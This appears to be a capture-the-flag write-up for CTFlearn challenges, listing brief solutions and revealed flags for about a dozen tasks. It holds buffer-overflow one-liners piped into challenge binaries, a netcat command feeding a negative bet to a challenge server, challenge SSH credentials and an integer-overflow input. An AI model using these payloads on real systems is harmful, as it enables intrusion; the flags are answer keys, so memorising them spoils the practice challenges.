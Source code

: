 # Lazy Game Challenge

Trie negative number for the bet like -100000$. And finally it gave me flag.

Or if not, execute this command, it does everything automatically

```sh
printf "Y\n-1000000\n11\n11\n11\n11\n11\n11\n11\n11\n11\n11\n" | nc thekidofarcrania.com 10001
```

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{d9029a08c55b936cbc9a30_i_wish_real_betting_games_were_like_this!}
``
</details>

# Simple bof

Use [python scripts](https://github.com/GuillaumeDupuy/CTF/blob/main/CTFLearn/scripts/simplebof.py)

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{buffer_0verflows_4re_c00l!}
``
</details>

# Favorite Color

Connect to the server `ssh color@104.131.79.111 -p 1001`
Entry the password `guest`

Now you are connect, if you entry `ls -la`, you see a file color.c

So fire the command to buffer overflow on the binary to gain acces to the flag file 

```sh
(python2 -c 'print "a"*52+"W\x86\x04\x08"';cat) | ./color
```

And if you have buffer overflow, you have just a `cat flag.txt` to get the flag

<details>
<summary markdown="span">Answer</summary>

flag :``
flag{c0lor_0f_0verf1ow}
``
</details>

# RIP my bof

Use [python scripts](https://github.com/GuillaumeDupuy/CTF/blob/main/CTFLearn/scripts/ripbof.py)

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{c0ntr0ling_r1p_1s_n0t_t00_h4rd_abjkdlfa}
``
</details>

# Blackbox

Fire the command to string overflow on the binary to get the flag

```sh
python -c "print '11111111111111111111111111111111111111111111111111111111111111111111111111111111\x02\x00\x00\x00'" | ./blackbox
```

<details>
<summary markdown="span">Answer</summary>

flag :``
flag{0n3_4lus_1_1s_Tw0_dumm13!!}
``
</details>

# Cryptoversing

Xor `h_bO}EcDOR` with `0x10`  and `+G)uh(jl,vL` with `0x18` on [Cryptii](https://cryptii.com/) from Bitwise operation 

<details>
<summary markdown="span">Full explanation</summary>

[here](https://github.com/GuillaumeDupuy/CTF/blob/main/CTFLearn/explanation_cryptoversing.md)
</details>

<details>
<summary markdown="span">Answer</summary>

flag :``
xOr_mUsT_B3_1mp0rt4nT
``
</details>

# Shell time!

Use [python scripts](https://github.com/GuillaumeDupuy/CTF/blob/main/CTFLearn/scripts/shell.py)

Execute

```sh
python3 shell.py thekidofarcrania.com 4902
```

Write `cat flag2.txt` to get the flag

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{c0ngrat1s_0n_th1s_sh3ll!_SKDJLSejf}
``
</details>

# Jenny

Check [youtube video](https://www.youtube.com/watch?v=no00Ec3YxXc)

<details>
<summary markdown="span">Answer</summary>

flag :``
N0w_1_kn0w_wh0_jen1_1s!11JNI_IS_SO_COOL!
``
</details>

# Libraries

Use [c scripts](https://github.com/GuillaumeDupuy/CTF/blob/main/CTFLearn/scripts/fakelib.c) and [makefile](https://github.com/GuillaumeDupuy/CTF/blob/main/CTFLearn/scripts/fake.mk)

<details>
<summary markdown="span">Answer</summary>

flag :``
CTF{JN1_1s_r3a77y_f4n!}
``
</details>

# Poor Login

Use [python scripts](https://github.com/GuillaumeDupuy/CTF/blob/main/CTFLearn/scripts/login.py)

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{I_sh0uldve_done_a_ref_counter!!_:PPPPP}
``
</details>

# Accumulator 

Write ``2147483647`` and after ``1``

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{n3x7_7yp3_0f_0v3rf0w}
``
</details>